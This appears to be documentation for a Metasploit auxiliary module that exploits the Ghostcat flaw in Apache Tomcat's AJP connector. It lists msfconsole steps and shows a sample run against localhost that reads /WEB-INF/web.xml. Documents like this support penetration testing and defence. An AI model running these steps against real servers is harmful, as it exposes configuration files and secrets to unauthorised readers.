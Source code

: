 ## Vulnerable Application

This module can be used to retrieve arbitrary files from anywhere in the web application, including the `WEB-INF` and `META-INF` 
directories and any other location that can be reached via ServletContext.getResourceAsStream() on Apache Tomcat servers. 
It also allows the attacker to process any file in the web application as JSP.


## Verification Steps

  1. Install the application and start it
  2. Start msfconsole
  3. Do: ```auxiliary/admin/http/tomcat_ghostcat```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set rport```
  6. Do: ```set FILENAME```
  7. Do: ```run```

## Options

## Scenarios

### Apache Tomcat on Windows 10.0.16299.125

  ```
  [*] Processing tomcat_ghostcat.rb for ERB directives.
  resource (tomcat_ghostcat.rb)> use auxiliary/admin/http/tomcat_ghostcat
  resource (tomcat_ghostcat.rb)> set rport 8009
  rport => 8009
  resource (tomcat_ghostcat.rb)> set rhosts 127.0.0.1
  rhosts => 127.0.0.1
  resource (tomcat_ghostcat.rb)> set verbose true
  verbose => true
  resource (tomcat_ghostcat.rb)> set FILENAME /WEB-INF/web.xml
  filename => /WEB-INF/web.xml
  
  resource (tomcat_ghostcat.rb)> run
  [*] Running module against 127.0.0.1
  <?xml version="1.0" encoding="UTF-8"?>
<!--
    Copyright 2017 The MIT Internet Trust Consortium
   
    Portions copyright 2011-2013 The MITRE Corporation
   
    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at
   
      http://www.apache.org/licenses/LICENSE-2.0
   
    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
-->  
 
  <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 

xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee 
http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd">

version = "4.0"
metadata-complete="true">

<display-name> Welcome to Tomcat </display-name>
<description>
 Welcome to Tomcat 
 </description>

 <web-app>
[*] Auxiliary module execution completed
  
  ```
